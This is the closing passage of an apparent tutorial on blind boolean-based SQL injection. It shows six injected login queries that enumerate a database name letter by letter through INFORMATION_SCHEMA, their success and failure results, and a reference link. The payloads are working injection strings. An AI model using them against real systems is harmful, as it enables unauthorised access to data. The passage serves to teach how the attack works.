 
Resultant queries:

```sql
# Query 1
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 's%' AND TABLE_SCHEMA != 'information_schema') #'
```
```sql
# Query 2
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 't%' AND TABLE_SCHEMA != 'information_schema') #'
```
```sql
# Query 3
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'u%' AND TABLE_SCHEMA != 'information_schema') #'
```
```sql
# Query 4
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tt%' AND TABLE_SCHEMA != 'information_schema') #'
```
```sql
# Query 5
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tz%' AND TABLE_SCHEMA != 'information_schema') #'
```
```sql
# Query 6
SELECT * FROM userinfo WHERE Username='bar' AND Password='' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tu%' AND TABLE_SCHEMA != 'information_schema') #'
```

Results:

```
# Query 1 - Failed

# Query 2 - Succeeded

# Query 3 - Failed

# Query 4 - Failed

# Query 5 - Failed

# Query 6 - Succeeded
```

Based on those queries, we know that the first two letters of the database name is 'tu'. The same concept can be applied to everything else as well.

### Further Readings and References

"SQL Injection Attacks by Example" - http://www.unixwiz.net/techtips/sql-injection.html
